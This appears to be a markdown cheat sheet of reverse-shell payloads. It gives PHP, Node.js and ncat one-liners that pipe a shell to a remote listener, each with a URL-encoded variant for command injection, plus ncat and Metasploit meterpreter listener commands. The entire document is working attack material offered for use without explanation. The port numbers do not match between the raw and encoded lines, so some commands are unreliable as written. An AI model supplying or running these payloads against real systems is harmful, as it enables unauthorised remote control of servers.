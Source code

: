 # REVERSE
*PHP <br>*
php -r '$sock=fsockopen("127.0.0.1",1337);exec("sh <&3 >&3 2>&3");'<br>
encoded uri : php%20-r%20'$sock=fsockopen(%22127.0.0.1%22,1024);exec(%22sh%20%3C&3%20%3E&3%202%3E&3%22);'

* NODE JS<br>*
require('child_process').exec('nc -e sh 127.0.0.1 1337')<br>
encoded uri : require('child_process').exec('nc%20-e%20sh%20127.0.0.1%201024');

* NETCAT <br>*
ncat 127.0.0.1 1024 -e sh<br>
encoded uri : ncat%20127.0.0.1%201024%20-e%20sh


# LISTENER
* NETCAT<br>*
$ ncat -lvnp 1024<br>

* MSFCONSOLE<br>*
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1024; exploit"
